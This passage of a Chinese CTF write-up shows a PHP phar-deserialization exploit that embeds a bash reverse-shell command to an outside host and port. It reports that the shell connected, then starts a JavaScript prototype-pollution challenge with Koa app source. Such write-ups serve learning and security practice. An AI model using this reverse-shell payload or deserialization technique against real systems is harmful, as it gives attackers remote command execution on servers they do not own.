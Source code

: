 #### 方法二 反弹shell

exp

```php
<?php
class Flag{
    public $cmd;
}

$a=new Flag();
$a->cmd="bash -c 'bash -i >& /dev/tcp/f57819674z.imdo.co/54789 0>&1'";
$phar = new Phar("hacker.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```

然后就和方法一差不多，先gzip压缩改后缀，然后phar伪协议读取
 成功反弹shell
 ![在这里插入图片描述](assets/3e8d1db636b94bb98b12297e8cf53757.png)

### OtenkiBoy（js原型链污染,过滤了`__proto__`）

> 考点：JavaSctipt 原型链污染

题目给了源码，首先是app.js

```js
const env = global.env = (process.env.NODE_ENV || "production").trim();
const isEnvDev = global.isEnvDev = env === "development";
const devOnly = (fn) => isEnvDev ? (typeof fn === "function" ? fn() : fn) : undefined
const CONFIG = require("./config"), DEFAULT_CONFIG = require("./config.default");
const PORT = CONFIG.server_port || DEFAULT_CONFIG.server_port;

const path = require("path");
const Koa = require("koa");
const bodyParser = require("koa-bodyparser");

const app = new Koa();

app.use(require('koa-static')(path.join(__dirname, './static')));
devOnly(_ => require("./webpack.proxies.dev").forEach(p => app.use(p)));
app.use(bodyParser({
    onerror: function (err, ctx) {
```